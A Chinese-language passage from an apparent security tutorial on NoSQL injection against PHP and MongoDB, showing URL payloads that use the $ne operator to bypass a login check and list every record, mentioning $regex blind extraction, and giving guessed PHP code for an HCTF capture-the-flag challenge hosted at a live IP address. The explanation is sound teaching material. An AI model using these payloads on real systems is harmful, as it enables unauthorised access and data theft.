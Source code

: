 如果此时传入的url如下:

> http://127.0.0.1/2.php?username[xx]=test&password=test

则$username就是一个数组，也就相当于执行了php语句：

```
$data = array(
'username'=>array('xx'=>'test'),
'password'=>'test');

```

而mongodb对于多维数组的解析使最终执行了如下语句：

> db.test.find({username:{'xx':'test'},password:'test'});

利用此特性，我们可以传入数据，是数组的键名为一个操作符（大于，小于，等于，不等于等等），完成一些攻击者预期的查询。

如，传入url:

> http://127.0.0.1/2.php?username[$ne]=test&password[$ne]=test

结果如图

![enter image description here](http://drops.javaweb.org/uploads/images/95a9fa671bde2896900547b42acf9541900c45bd.jpg)

因为传入的键名$ne正是一个mongodb操作符，最终执行了语句：

> db.test.find({username:{'$ne':'test'},password:{'$ne':'test'}});

这句话相当于sql:

> select * from test where username!='test' and password!='test';

直接便利出所有集合中的数据。

如果此时的用户名与密码不能回显，只是返回一个逻辑上的正误判断。

那么我们可以采用$regex操作符来一位一位获取数据。

案例演示：http://121.40.86.166:23339/

这是hctf中的一道题目。

猜测其php代码大概如下

```
<?php
$mongo = new mongoclient();
$db = $mongo->myinfo; //选择数据库
$coll = $db->test; //选择集合
$lock = $_POST['lock'];
$key = $_POST['key'];
if (is_array($lock)) {
    $data = array(
        'lock'=>$lock);
    $data = $coll->find($data);
    if ($data->count()>0) {
        echo 'the lock is right,but wrong key';
    }else{
        echo 'lock is wrong';
    }
}else{
    if ($lock == 'aabbccdd'&&$key=='aabbccdd') {
        echo 'Your flag is xxxxxxx';
    }else{
        echo 'lock is wrong';
    }
}
?>

```
